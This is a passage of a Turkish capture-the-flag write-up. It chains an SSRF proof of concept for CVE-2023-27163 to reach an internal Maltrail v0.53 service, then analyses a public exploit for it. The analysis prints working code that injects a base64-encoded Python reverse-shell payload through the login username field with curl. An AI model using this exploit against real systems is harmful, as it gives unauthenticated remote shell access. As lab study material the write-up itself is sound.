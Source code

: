 
#### Exploit

Burada bundan faydalanmak için güzel bir [POC](https://github.com/entr0pie/CVE-2023-27163/blob/main/CVE-2023-27163.sh) var. Port 80'i okumayı denemek için çalıştıracağım:

![Pasted image 20250111002209.png](/img/user/Pasted%20image%2020250111002209.png)
Sonuçları görmek için ziyaret edebileceğim bir URL veriyor:

http://10.10.11.224:55555/noudql

![Pasted image 20250111002333.png](/img/user/Pasted%20image%2020250111002333.png)

CSS ve resimler yüklenmiyor, ama en azından Mailtrail v0.53 olduğunu görebiliyorum.

![Pasted image 20250111002534.png](/img/user/Pasted%20image%2020250111002534.png)

Aynı şeyi 8338'de de deneyeceğim ve aynı uygulama olduğunu göreceğim.


### RCE in Mailtrail

![Pasted image 20250111005703.png](/img/user/Pasted%20image%2020250111005703.png)

#### Identify

“[Mailtrail](https://github.com/spookier/Maltrail-v0.53-Exploit) exploit” araması yapıldığında, ilk olarak Mailtrail v0.53'te kimliği doğrulanmamış bir kod çalıştırma açığı olan bu repo bulunur. Login sayfası username parametresi için girdiyi sterilize etmiyor, bu da OS command injection'a yol açıyor.


#### Script Analysis

Bu script, istekte bulunmak için curl'ü çağırmak üzere Python'daki os.system'i kullanarak oldukça acemice  hazırlanmıştır:

```
def curl_cmd(my_ip, my_port, target_url):
	
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)
```

Bu, verilen Url artı /login'e basit bir POST isteğidir.

```
def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)
```